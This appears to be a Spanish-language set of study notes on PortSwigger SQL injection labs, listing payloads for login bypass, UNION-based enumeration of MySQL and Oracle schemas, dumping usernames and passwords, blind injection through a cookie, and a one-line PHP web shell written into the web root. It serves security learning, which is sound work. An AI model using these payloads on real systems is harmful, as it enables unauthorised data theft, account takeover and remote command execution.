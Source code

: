 # SQL Intection 'PortSwigger' MySQL ❮❯

Tags: #BurpSuite #SQLI #Explotacion #Enumeracion 

```bash 
❯ burpsuite &> /dev/null & disown                    # Iniciamos el BurpSuite y lo mandamos a segundo plano
```

- **union select "<? system($_REQUEST['cmd']) ?>" into "/var/www/html/outfile"** Podemos crear un archivo llamado Outfile que contenga un cmd que nos interpretara comandos. Despues del primer ? va php

### DATABASE - TABLES - COLUMS - DATA 
Asi se conforma una base de datos

#### Lab1 SQL injection vunerability in WHERE clause allowing retrieval of hidden ***'%s'***
Estamos haciendo que nos comente el esto de la query por ende nos debe de mostrar todo el contenido visible de la pagina.
	**’or 1=1-- -    o    'or 1=1#** 
- ***-- - o #*** -> Para comentar lo que hay en la derecha y no se interprete
- or 1=1 -> Devuelve un codigo de estado exitoso TRUE 

#### Lab 2 SQL injection vulnerability allowing login bypass ***'%s'***
De los dos campos que tenemos en un panel de autenticacion, estamos haciendo que nos comente el segundo campo y por ende no tome en cuenta la password.
	**admin'-- -** 
- ***-- -***  Para comentar lo que hay en la derecha y no se interprete

#### Lab3 SQL injection UNION attack, determining the number of columns returned by the query 
A veces el ordenar columnas hace que nos salga un error, con el cual nos podriamos dar una idea, cuando no sale es ahi el numero de columnas existentes.
	**'order by 10-- -** Haremos un ordenamiento de los datos, basandonos en la decima colmuna, de ahi se reduce hasta que no nos muestre el error
Una vez obtenido el numero de las columnas, utlizamos el UNION select para combinar datos
	**'union select 1,2,3-- -** 
* 1,2 -> El numero de columnas que hemos encontrado, en este caso son dos... Si fuera mas seria 1,2,3,4 etc... Si la pagina no te admite numeros, en ese caso poner NULL,NULL,NULL. 
Esto es para MySQL y Microsoft
	**'union select NULL,@@version -- -** Para saber la version de MySQL y Microsoft
	
#### Lab4 SQL injection union attack, finding a column containing text
Una vez obtenido el numero de las columnas, utlizamos el UNION select para combinar datos
	**'union select NULL,'snhsb',NULL-- -** Buscar que campo es inyectable para poder ingresar funciones o comandos.
Dependiendo del campo que sea injectable, podemos colocarle diferentes cosas para que nos reporte algo. Por ejemplo:
* version() -> Podemos usar esos campos para que nos muestre diferentes cosas, en este caso la version
* database() -> Si la segunda columna es inyectable, ahi podriamos hacer que nos muestre la base de datos que esta usando
* user() -> Que me muestre que usuario esta corriendo la base de datos actual 

#### Lab5,6 SQL injection UNION attack, retrieving data from other tables and retrieving multiple values in a single column
- Para listar las bases de datos existentes
	**'union select 1,2,schema_name from information_schema.schemata -- -** Pone el resultado en forma de lista
	**'union select 1,2,*group_concat*(schema_name) from information_schema.schemata -- -** Para saber cuantas bases de datos tenemos, 
pone resultado en una sola linea, este es mas conveniente para listar el usuario y su passwd
	**'union select 1,schema_name,3 from information_schema.schemata -- -** El schema_name siempre va en el campo que es inyectable.

- Para enumerar las tablas 
	**'union select 1,2,table_name from information_schema.tables -- -** Lista las tablas de todas las bases de datos existentes
	**'union select 1,2,table_name from information_schema.tables WHERE table_schema='*DBS*'-- -** Lista las tablas de una base de datos especifica

- Para enumerar las columnas 
	**'union select 1,2,column_name from information_schema.columns WHERE table_schema='*DBS*' and table_name='*TABLENAME*' -- -** Lista las columnas de una base de datos especifica, donde tambien tenemos una tabla especifica

- Para mostrar la data con concatenaciones
	**'union select 1,2,group_concat(*username*, ':' ,*password*) from *DB.TABLENAME* -- -** Muestra los datos de las columnas obtenidas en una sola linea delimitado por los dos puntos (**: = 0x3a** representacion en hexadecimal) Hacemos esto si la base de datos actual no es la que contiene los datos que queremos 
	**'union select 1,2,group_concat(*username*, ':' ,*password*) from *TABLENAME* -- -** Muestra los datos de las columnas obtenidas en una sola linea delimitado por los dos puntos siempre y cuando la tabla sea de la base de datos de la que le queremos extraer los datos
	**'union select 1,2,concat(*username*,':',*password*) from *TABLENAME* -- -** Muestra los datos de las columnas obtenidas en una sola linea delimitado por los dos puntos siempre y cuando la tabla sea de la base de datos de la que le queremos extraer los datos
	**'union select 1,2,*username*||':'||*password* from *TABLENAME* -- -** Muestra los datos de las columnas obtenidas en una sola linea delimitado por los dos puntos siempre y cuando la tabla sea de la base de datos de la que le queremos extraer los datos, esta es otra forma de concatenar, por la web no te deja con group concat
	**'union select 1,*username*,*password* from *TABLENAME* -- -** Muestra los datos de las columnas obtenidas en fila siempre y cuando la tabla sea de la base de datos de la que le queremos extraer los datos, aqui estamos ocupando dos campos que son inyectables

#### Lab7, SQL injection attack, querying the database type and version on Oracle
La tabla DUAL es una tabla especial de una sola columna presente de manera predeterminada en todas las instalaciones de bases de datos de Oracle.
	**'union select NULL,NULL from dual -- -** Debemos de agregar esa tabla en Oracle para que no nos de error 
	**'union select NULL,banner from v$version -- -** Para saber la version de Oracle 

#### Lab10 SQL injection attack, listing the database contents on Oracle
La tabla DUAL es una tabla especial de una sola columna presente de manera predeterminada en todas las instalaciones de bases de datos de Oracle.
	**'union select NULL,NULL from dual -- -** Debemos de agregar esa tabla en Oracle para que no nos de error 
	**'union select NULL,owner from all_tables -- -** Primero listamos contra los propietarios
	**'union select NULL,table_name from all_tables WHERE owner='*OWNERNAME*' -- -** Miramos las tablas existentes de un propietario especifico
	**'union select NULL,column_name from all_tab_columns WHERE table_name='*TABLENAME*' -- -** Miramos las columnas existentes de un propietario especifico
	**'union select 1,2,*username*||':'||*password* from *TABLENAME* -- -** Muestra los datos de las columnas obtenidas en una sola linea delimitado por los dos puntos siempre y cuando la tabla sea de la base de datos de la que le queremos extraer los datos, esta es otra forma de concatenar, por la web no te deja con group concat

#### Lab11 Blind SQL injection with conditional responses
- En este caso el vulnerable es el TrackID, por lo que cuando algo es correcto nos sale en la web 'Welcome Back!'
Ademas de esto debemos de saber el nombre correcto de la DB, username, y asi nosotros por medio de un script de python3 podriamos adivinar la password.
	**Cookie: TrackingId=v54JPAcaS7lKSevV; session=O3YFg0GqU8Wjyv9qBo6F4JDUQGxuTdfg** Es la original
- Para que el script fucnione debemos de saber la longitud de la password y eso se hace de esta manera:
	**Cookie: TrackingId=v54JPAcaS7lKSevV' and (select 'a' from *users* where *username*='administrator' and length(*password*)>=20)='a'-- -; session=O3YFg0GqU8Wjyv9qBo6F4JDUQGxuTdfg**
	* users -> DBs
	* username -> nombre de usuario valido 
	* password -> passwd que queremos encontrar
	* 20 es el tamano de la password y eso lo sabemos porque hasta ahi aun nos sigue saliendo el 'Welcome Back!'
Despues nos hacemos el script en python3 y obtenemos la password.


#### Lab12 Blind SQL injection with conditional errors
